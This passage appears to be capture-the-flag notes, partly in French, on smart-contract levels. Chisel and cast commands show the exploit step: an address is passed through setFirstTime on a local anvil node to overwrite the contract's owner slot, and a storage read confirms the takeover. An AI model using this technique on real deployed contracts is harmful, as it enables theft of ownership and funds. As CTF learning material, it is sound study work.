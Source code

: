 dakdak@dakdak:~/code/SECURITY/CTF$ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ address owner =0x70997970C51812dc3A010C7d01b50e0d17dc79C8
➜ uint256 ownerCasted = uint256(uint160(owner))
➜ ownerCasted
Type: uint256
├ Hex: 0x70997970c51812dc3a010c7d01b50e0d17dc79c8
├ Hex (full word): 0x70997970c51812dc3a010c7d01b50e0d17dc79c8
└ Decimal: 642829559307850963015472508762062935916233390536

cast send $p "setFirstTime(uint256)" 642829559307850963015472508762062935916233390536 --rpc-url 127.0.0.1:8545 --account anvil

cast storage $p 2
0x00000000000000000000000070997970c51812dc3a010c7d01b50e0d17dc79c8 //correspond a l'adresse du nouveau owner

# Recovery.sol
Il est important de noter qu'après le deploiement du smart contract , le CA a une valeur de 
nonce egale a 1
